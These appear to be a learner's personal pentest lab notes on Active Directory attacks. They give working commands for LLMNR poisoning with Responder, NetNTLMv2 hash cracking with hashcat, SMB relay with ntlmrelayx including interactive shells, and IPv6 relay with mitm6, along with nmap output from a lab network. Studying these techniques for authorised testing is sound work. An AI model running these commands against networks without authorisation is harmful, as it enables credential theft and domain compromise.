 
** 1 Netbios && LLMNR Name poisoning\
** 2 Relay attacks\
** 3 mitm6\
** 4 MS17-010\
** 5 kerberoasting\

---
1. **LLMNR** (link local multicasting name resolution:: basically DNS) Poisoning
       + needs lot of traffic - before nmap/nessus scans
    responder: 'code' python /usr/share/responder/Responder.py -L eth0 -rdwv
       + try to access attacker IP address. see ![llmnr_poison](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\admin_malz_llmnr_poison.png)
         +  'hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt'
            ## -m 5600 module for NetNTLMv2
---
2. SMB Relay attacks:
        Requirements:: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
        setup ntlmrelay see ![ntlmrelay.py](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\ntlmrelay_py.png) 
   Finding which have smb enabled:
        nessus or nmap:: 'nmap --script=smb2-security-mode.nse -p445 192.168.86.0/24'
            Nmap scan report for oxytocin-dc.lan (192.168.86.205)  (**DC**)
            PORT    STATE SERVICE
            445/tcp open  microsoft-ds
            Host script results:
            | smb2-security-mode:
            |   2.02:
            |_    Message signing enabled and required
   'python3 ntlmrelayx.py -tf targets.txt -smb2support (-i)'  'python3 -m pip install .' for install && -i interactive shell"
        :: Working but keeps failing:: see ![revmalz](Screenshots/revshell_smb_malz.png) && ![break](Screenshots/malz_smb_breaking.png)
        ::For shells W/ creds: ![shells](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\meterpreter_psexec_shells.png)
        ###wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy###
---

3. Pv6 Attacks: DNS relay
    ##requirements, must add certificate in DC
        manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs
       - 'sudo python3 mitm6.py -d carbon.local'
       - 'sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme'
       - see ![IPv6_relay](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\relay_ipv6.png)
---
4. 

5. MS17-010
6. 
 
[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords)
[impacket] (https://github.com/SecureAuthCorp/impacket)
[mitm6] (https://github.com/dirkjanm/mitm6)
